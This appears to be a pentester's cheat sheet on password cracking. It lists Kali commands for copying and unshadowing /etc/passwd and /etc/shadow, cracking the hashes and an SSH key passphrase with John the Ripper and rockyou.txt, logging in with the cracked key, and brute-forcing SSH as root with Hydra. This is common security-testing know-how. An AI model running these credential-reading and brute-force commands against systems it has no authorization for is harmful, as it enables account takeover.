 # Passwords

[Create password](https://www.kali.org/tools/whois/)

```shell
mkpasswd -m sha-512 <PASSWORD>
```

```shell
openssl passwd -1 -salt <SALT> <PASSWORD>
```

[John the Ripper](https://www.kali.org/tools/john/)

```shell
sudo apt install john
```

```shell
cp /etc/passwd passwd.txt && cp /etc/shadow shadow.txt

unshadow passwd.txt shadow.txt > hash_to_crack.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt
```

[ssh2john — convert id_rsa key to a format that john will accept](https://www.kali.org/tools/john/#ssh2john)

```shell
locate ssh2john.py
```

```shell
python ssh2john.py id_rsa > id_rsa.hash
```

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

```shell
chmod 600 id_rsa
```

```shell
ssh -i <id_rsa> user@host
```

```
-i identity_file        Selects a file from which the identity (private key) for public key authentication is read.  You can also specify a public key file to use the corresponding private key that is loaded in ssh‐agent(1) when  the  private  key  file  is not present locally.  The default is ~/.ssh/id_rsa, ~/.ssh/id_ecdsa, ~/.ssh/id_ecdsa_sk, ~/.ssh/id_ed25519, ~/.ssh/id_ed25519_sk and ~/.ssh/id_dsa.  Identity files may also be specified on a perhost basis in the configuration file.  It is possible to have multiple -i options (and multiple identities specified in configuration files).  If no certificates have been explicitly specified by the CertificateFile directive, ssh will also try to load certificate information from the filename obtained by appending ‐cert.pub to identity filenames.
```

[Hydra](https://www.kali.org/tools/hydra/)

```shell
sudo apt install hydra
```

```shell
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

# Wordlists

[Wordlists](https://www.kali.org/tools/wordlists/)

```shell
sudo apt install wordlists

gunzip /usr/share/wordlists/rockyou.txt.gz
```

[SecLists](https://www.kali.org/tools/seclists/)

```shell
sudo apt install seclists
```